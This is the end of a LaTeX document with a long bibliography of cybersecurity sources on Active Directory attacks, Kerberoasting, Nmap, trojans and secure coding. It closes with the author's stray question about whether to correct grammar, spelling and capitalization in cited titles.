    \item Red Teaming 101-How to Setup C2 Redirectors with Sliver C2 | YouTube
    \item Secure Coding Practices Checklist-OWASP Foundation
    \item Testing for XML Injection-WSTG-Latest | OWASP Foundation
    \item The Role of Red Team and Blue Team in Cybersecurity-Mad Devs
    \item Top 10 Web Hacking Techniques of 2024: r/netsec-Reddit
    \item Understanding ISO 27001:2022: People, Process, and Technology-KPMG International
    \item Web Application Attacks-Codecademy
    \item What is a Kerberoasting Attack?-IBM
    \item What is Ethical Hacking? Using Hacking Techniques For Good-Forbes
    \item What Is a Kerberoasting Attack?-Picus Security
    \item What is Offensive Security? Techniques \& Benefits-SentinelOne
    \item What is XXE (XML External Entity) Injection? Tutorial \& Examples | Web Security Academy
    \item Beginners Guide to Packet Sniffing-Hackercool Magazine
    \item Comprehensive Guide to OSI Layers and Cybersecurity Attacks (2025)
    \item Ethical Hacking Full Course 2025 | Ethical Hacking Course for Beginners | Simplilearn
    \item Master Network Forensics: Essential Tools, Techniques, and Best Practices for Cybersecurity
    \item The NIST Cybersecurity Framework (CSF) 2.0
    \item Top 10 Network Hacking Tools-CyberSapiens
    \item Secure Coding Best Practices Handbook | Veracode
    \item 2025 Global Threat Report-CrowdStrike
    \item Recovering from Viruses, Worms, and Trojan Horses-CISA
    \item Trojan Horse Examples (2024): The 6 Worst Attacks Ever-SoftwareLab
    \item Trojan Horse Malware: A Comprehensive Guide-Number Analytics
    \item Trojan Source: Invisible Vulnerabilities-arXiv
    \item What is Remote Access Trojan (RAT) | Types \& Prevention-Imperva
    \item What is a Trojan Horse Virus? Types and How to Remove It-Kaspersky
    \item What is a Trojan Horse? Trojan Malware Explained | CrowdStrike
    \item Defenses Against Nmap | Nmap Network Scanning
    \item How To Use Nmap To Scan For Open Ports | Blumira
    \item Nmap Network Scanning-Bookey
    \item Nmap Scripting Engine Documentation-Blackhat.com
    \item Nmap: Unveiling Network Exploration and Ethical Hacking-HackYourLife
    \item Using Nmap in Red and Blue Team Exercises by Peter A Okebukola
    \item What is Cybersecurity Reconnaissance?-Bitsight
    \item XSS-NetSec
    \item Active Directory-Forest Trust Abuse | 0xStarlight
    \item Active Directory Enumeration: Automated and Manual Techniques for Privilege Escalation
    \item Active Directory Pentesting: Cheatsheet and Beginner Guide-HackTheBox
    \item Finding Abusable Active Directory Permissions with BloodHound-Netwrix Blog
    \item Top 16 Active Directory Vulnerabilities : r/activedirectory-Reddit
    \item Understanding Windows Lateral Movements-ATTL4S
    \item What is Mimikatz? The Beginner's Guide
    \item A07 Identification and Authentication Failures-OWASP Top 10:2021
    \item Bypassing Web Authentication and Authorization with HTTP Verb Tampering-OWASP Cheatsheet
    \item CAPTCHA and reCAPTCHA: How Fraudsters Bypass It | Synack
    \item How Hackers Exploit Social Engineering to Bypass MFA-Kobalt.io
    \item JWT Attacks | Web Security Academy-PortSwigger
    \item Password Reset Poisoning | Web Security Academy-PortSwigger
    \item Session Hijacking-How It Works and How to Prevent It-Ping Identity
    \item State-of-the-Art Phishing: MFA Bypass-Cisco Talos
    \item What is an Authentication Bypass Vulnerability? Examples and Prevention-Legit Security
    \item 8 Powerful Kerberos Attacks (That Analysts Hate)-HackTheBox
    \item Active Directory Exploitation and Lateral Movement-BlackBox Approach-elhacker.INFO
    \item Active Directory Security Workshop
    \item AD Enumeration Without External Scripts-Payatu
    \item Active Domain Enumeration Part-1 With PowerView-NoRed0x
    \item Active Directory Enumeration-Pentest Everything-GitBook
    \item Active Directory Enumeration PowerView-Hacking Articles
    \item Active Directory Enumeration with PowerShell-Exploit-DB
    \item Active Directory Enumeration: Everything You Need To Know-Codelivly
    \item Active Directory Kerberoasting Attack: Monitoring and Detection Techniques-SciTePress
    \item Active Directory Penetration Testing | Windows Pentest | Part 1
    \item Active Directory Pentesting Using Netexec Tool: A Complete Guide-Hacking Articles
    \item Active Directory Security Best Practices, Vulnerabilities, and Attacks-Vaadata
    \item Active Directory Security Checklist-SentinelOne
    \item Active Directory Security: Attacks and Incident Response
    \item Best Practices to Prevent Active Directory Enumeration-Microsoft Q\&A
    \item Diving Into Pre-Created Computer Accounts-TrustedSec
    \item Enumerating Active Directory with PowerView-MCSI Library
    \item Enumeration Attacks: What They Are and How to Prevent Them-TechTarget
    \item How Deception Detects and Prevents Privilege Escalation in Active Directory
    \item How to Protect Active Directory Against Kerberoasting: AD Security 101-Semperis
    \item How to Enumerate Windows Active Directory with PowerView
    \item Incident Response Plan \& Playbook
    \item Kerberoasting | Red Team Notes
    \item LDAP Enumeration-GeeksforGeeks
    \item LDAP Enumeration with ldapsearch-Shining Star
    \item LDAP Enumeration: Unveiling the Double-Edged Sword of Active Directory-Unit 42
    \item MachineAccountQuota Exploitation in Active Directory
    \item Passwords and Pre-Created Computer Accounts-Internal All The Things
    \item Password Spraying-NetExec
    \item PowerView: Active Directory Enumeration-Red Team Notes
    \item Pre-Windows 2000 Computer Account Exploitation
    \item Red vs. Blue: Modern Active Directory Attacks, Detection \& Protection-ADSecurity.org
    \item Active Directory Exploitation Cheat Sheet-S1ckB0y1337-GitHub
    \item The Complete Active Directory Security handbook-CISO2CISO.com
    \item The Essential Guide to Network Enumeration: Tools and Techniques | Fidelis Security
    \item The Renaissance of NTLM Relay Attacks: Everything You Need to Know-SpecterOps
    \item Understand PASSWD\_NOTREQD Flag-WindowsTechno
    \item Unix Linux Enumeration Cheat Sheet
    \item User Enumeration Techniques and Tactics in an Active Directory Pentesting Engagement by Harshar Majuhid
    \item UserAccountControl Property Flags-Windows Server-Microsoft Learn
    \item What is a Port Scan?-GoodAccess
    \item Best Practices for Securing DNS Enumeration | Edureka Community
    \item Windows Hardening | Hurricane Labs
    \item Windows Server and Active Directory-elhacker.INFO
    \item 

 
 do we correct bad grammar such as     \item A beginner's guide to SQL injection and how you should prevent it : r/java - Reddit
or leave it? also with words like Centre in a title e.g., Cyber Security Centre do icorrect that to center? oh what if an online title is in all caps do i put all caps?

 

 

 

 

 

 

 
\end{itemize}

\printindex
\end{document}
